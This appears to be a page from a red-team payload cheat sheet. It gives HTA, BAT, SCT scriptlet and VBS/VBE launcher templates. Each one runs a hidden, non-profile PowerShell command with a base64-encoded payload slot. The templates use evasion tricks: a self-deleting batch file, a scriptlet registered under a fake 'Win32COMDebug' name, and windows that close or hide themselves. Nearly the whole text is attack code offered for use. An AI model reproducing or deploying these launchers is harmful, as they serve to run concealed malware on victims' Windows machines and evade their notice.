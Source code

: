```
<html>
<head>
<script>
var c= 'powershell -noP -sta -w 1 -enc  base64'
new ActiveXObject('WScript.Shell').Run(c);</script>
</head>
<body>
<script>self.close();</script>
</body></html>
```

**bat**

```
@echo off
start /b powershell -noP -sta -w 1 -enc  base64
start /b "" cmd /c del "%~f0"&exit /b
```

**sct**

```
<?XML version="1.0"?>
<scriptlet>
<registration
description="Win32COMDebug"
progid="Win32COMDebug"
version="1.00"
classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
 >
 <script language="JScript">
      <![CDATA[
           var r = new ActiveXObject("WScript.Shell").Run('powershell -noP -sta -w 1 -enc  base64');
      ]]>
 </script>
</registration>
<public>
    <method name="Exec"></method>
</public>
</scriptlet>
```

**vbs/VBE**

```
Dim objShell
Set objShell = WScript.CreateObject("WScript.Shell")
command = "powershell -noP -sta -w 1 -enc  base64"
objShell.Run command,0
Set objShell = Nothing
```

#### 可执行文件后缀
